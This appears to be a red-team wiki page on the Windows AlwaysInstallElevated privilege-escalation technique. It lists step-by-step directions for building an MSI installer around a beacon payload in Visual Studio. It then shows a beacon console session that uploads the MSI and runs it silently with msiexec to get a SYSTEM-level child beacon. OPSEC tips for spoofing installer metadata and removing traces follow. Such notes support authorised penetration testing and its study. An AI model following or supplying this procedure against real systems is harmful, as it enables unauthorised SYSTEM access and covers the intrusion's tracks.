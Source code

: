 # Always Install Elevated
This policy allows standard users to install applications requiring higher permissions as the user has. This is equivalent to granting full administrative rights.

Vulnerability can be identified via [[Tools/SharpUp]]

## Exploit
Create a MSI installer containing the payload that will be installed and executed with SYSTEM privileges.

-   Generate a new TCP payload and save it to `C:\Payloads\beacon-tcp.exe`.
-   Open **Visual Studio**, select **Create a new project** and enter **installer**. Select the **Setup Wizard** project and give the project a name, like **InstallBeacon**.
-   Use a random location like `C:\Payloads`, then select **place in the same directory**, and click **Create**.
-   When prompted with the choise to include files click **Add** and select the payload (beacon-tcp.exe) and click **Finish**.
-   Highlight the **InstallBeacon** project and change the **TargetPlatform** based on the target architekture.
-   Right-click the project and select **View > Custom Actions**.
-   Right-click **Install** and select **Add Custom Action**.
-   For direct execution, double-click on **Application Folder**, select your **beacon-tcp.exe** file and click **OK**.
-   If you have selected x64 before make sure to change **Run64Bit** to **True** in the **Custom Action Properties** option.

Now build the project, which should produce an MSI at `C:\Payloads\InstallBeacon\Debug\InstallBeacon.msi`.


#opsec:
- if installed, it will appear as an installed programm.
- clone file metadata like  **Author** or **Manufacturer**.


``````beacon
beacon> cd C:\Temp
beacon> upload C:\Payloads\InstallBeacon\Debug\InstallBeacon.msi
beacon> run msiexec /i InstallBeacon.msi /q /n
beacon> connect localhost 4444
[+] established link to child beacon: 192.168.1.253
``````

#OPSEC remove the MSI afterwards, you can use `msiexec /n /q /uninstall InstallBeacon.msi` for removing the file.

## Tools
########
########


```meta
ttp: T1548
requirements: 
results: admin
description: This registry value enables an user to install applications with access to higher level folders/registry keys
```